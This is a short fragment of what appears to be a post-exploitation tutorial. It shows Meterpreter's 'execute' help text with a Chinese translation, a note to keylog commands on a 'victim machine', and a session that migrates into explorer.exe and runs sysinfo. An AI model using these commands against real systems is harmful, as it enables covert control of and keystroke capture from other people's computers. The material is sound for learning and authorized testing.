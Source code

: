 ```
meterpreter > help execute
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -H        Create the process hidden from view.
    -a <opt>  The arguments to pass to the command.
    -c        Channelized I/O (required for interaction).
    -d <opt>  The 'dummy' executable to launch when using -m.
    -f <opt>  The executable command to run.
    -h        Help menu.
    -i        Interact with the process after creating it.
    -k        Execute process on the meterpreters current desktop
    -m        Execute from memory.
    -s <opt>  Execute process in a given session as the session user
    -t        Execute process with currently impersonated thread token

```

```
用法：执行-f文件[选项]
在远程机器上执行命令。

选项：

     -H 创建隐藏的进程。
     -a <opt> 传递给命令的参数。
     -c 通道化 I/O（交互需要）。
     -d <opt> 使用 -m 时要启动的“虚拟”可执行文件。
     -f <opt> 要运行的可执行命令。
     -h 帮助菜单。
     -i 创建进程后与进程交互。
     -k 在meterpreters当前桌面执行进程
     -m 从内存中执行。
     -s <opt> 作为会话用户在给定会话中执行进程
     -t 使用当前模拟的线程令牌执行进程
```

或者

```
C:\Users\Administrator\Desktop>hacked.txt
hacked.txt

```

Use the keylogger to log the commands typed on the victim machine.

```
meterpreter > pgrep explorer
2472
meterpreter > migrate 2472
[*] Migrating from 2844 to 2472...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

```
